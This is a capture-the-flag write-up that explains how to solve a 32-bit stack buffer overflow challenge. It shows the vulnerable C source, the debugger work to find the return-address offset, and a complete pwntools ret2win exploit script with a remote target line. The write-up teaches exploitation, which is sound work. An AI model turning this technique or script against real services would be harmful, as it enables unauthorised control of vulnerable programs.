 # Binexp-1

> **Description:** Ever heard of the cow that jumps over the moon? 
>
> **Remote Instance:** nc 54.255.236.13 9001

### Basic File Checks

Perform basic file checks to understand how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-1 
binexp-1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=cc905ed71a037c20214db617b5901e4542899113, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

We can also perform binary protection checks to get an overall idea on where to start tackling the challenge. `No PIE` indicates that we do not have to worry about Address Randomization when performing a `ret2win` attack.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ checksec --file=binexp-1 
[*] '/home/kali/Desktop/binexp-1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Code Analysis

By looking at the source code, the `win` function appears to be a dead-code and unreachable by logic. It was initialized but never called by the `main` function. Once again, the same Buffer Overflow vulnerability presents in the `gets` function.

```c
#include <stdio.h>
#include <stdlib.h>

char flag[100];

int win() {
	printf("%s", flag);
	fflush(stdout);
}

int main(int argc, char *argv[]) {
	char buf[64];

	FILE *f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("'flag.txt' not found.");
		exit(0);
	}

	fgets(flag, 100, f);

	puts("Can you make this jump?");
	gets(buf);
	puts("Welp... Guest not.");
}
```

### Preparation

To find the offset or the number of characters required to fill the padding, we can use the `cyclic` module together with `pwn-dbg`. When the program crashes due to segmentation fault, we can inspect the EIP’s value and perform a lookup to determine its offset.

```
pwndbg: loaded 198 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from binexp-1...
(No debugging symbols found in binexp-1)
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

pwndbg> run
Starting program: /home/kali/Desktop/binexp-1 
Can you make this jump?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welp... Guest not.

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
 EAX  0x13
 EBX  0x0
 ECX  0xffffffff
 EDX  0xffffffff
 EDI  0x8048480 (_start) ◂— xor    ebp, ebp
 ESI  0x1
 EBP  0x61616174 ('taaa')
 ESP  0xffffd110 ◂— 'vaaawaaaxaaayaaa'
 EIP  0x61616175 ('uaaa')
─────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x61616175

pwndbg> cyclic -l uaaa
80
```

Instead of overwriting a variable, we can overwrite the Instruction Pointer with the address of `win` function. Since PIE is not enabled, we can easily get the static address of `win` function and have the EIP point to that particular address.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ objdump -D binexp-1 | grep "win"     
08048534 <win>:   
```

To ensure that the stack contains the proper amount of bytes to be aligned, we can make use of the `ret` gadget to fill up the space.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ropgadget binexp-1 | grep "ret" 
0x080483be : ret
```

### Solution

Using pwntools to automate the process:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./binexp-1')
rop = ROP(elf)

p = elf.process()
#p = remote('54.255.236.13', 9001)

def exploit():

    padding = b'A'*80
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['win']

    payload = padding
    payload += p32(ret)
    payload += p32(flag)

    print(p.recvuntil(b'?'))

    print(payload)
    p.sendline(payload)

    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```

